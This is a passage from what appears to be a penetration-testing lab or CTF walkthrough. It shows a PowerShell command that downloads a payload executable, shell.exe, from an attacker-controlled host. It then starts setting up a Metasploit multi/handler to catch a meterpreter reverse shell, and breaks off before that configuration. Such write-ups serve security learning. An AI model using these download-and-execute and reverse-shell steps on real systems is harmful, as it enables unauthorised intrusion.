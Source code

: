 Now, we are ready to download it using the powershell script, but we have a simple bash, not a powershell, but we can execute it by using:

`powershell -command " #PasteCodeHere "`

So, the final command is:

`powershell -command "Invoke-WebRequest 10.10.10.10:8000/shell.exe -OutFile shell.exe"`

<figure><img src="../../.gitbook/assets/Untitled 24 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Untitled 25 (2).png" alt=""><figcaption></figcaption></figure>

We can see that the download takes place.

Next step is open msfconsole and use multi/handler module to capture the meterpreter shell. We have to configure it with the same values we used in the payload:
